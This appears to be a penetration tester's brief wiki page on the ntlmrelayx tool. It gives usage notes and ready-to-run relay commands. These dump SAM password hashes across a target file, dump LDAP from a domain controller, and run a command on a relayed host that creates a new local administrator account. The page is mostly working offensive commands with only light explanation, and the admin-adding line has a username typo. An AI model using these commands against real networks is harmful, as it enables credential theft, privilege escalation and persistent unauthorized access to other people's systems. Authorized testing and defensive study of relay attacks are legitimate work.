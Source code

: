 <!-- TITLE: Ntlmrelayx -->
<!-- SUBTITLE: A quick summary of Ntlmrelayx -->

# Wish
Would be nice to be able to specify only certain users to be relayed (domain admins only).
Perhaps blacklist IPs on responder.
Would be nice to keep state (which users have been tried against which boxes, so you cover more targets, and make the most of rare hashes).

# Note that as of this writing it uses python 2.7.18
use pipenv to install in a clean env

# Highly recommend a target file
Previous test had a high privilege user making a ton of connections and got sams from many boxes at once.  Had I hit only one I'd have only gotten one.  
# Common Usages
## No Arguments defaults to dumping SAM
```
ntlmrelayx.py -tf targets -w --no-http-server -smb2support
-tf uses a target file instead of one target
-w means to watch the target file in case it changes.
Targetfile should be ldap://ip   smb://ip  https://ip etc
```

## Run a Command
```
ntlmrelayx.py -t smb://192.168.10.102 -c 'net user newname passw0rd /add; net localgroup Administrators nename /add'
```

## LDAP Dump of domain
```
ntlmrelayx.py -t ldap://ip_of_domain_controller
```

## Looks like it supports socks server of some sort.  Not sure about this one.


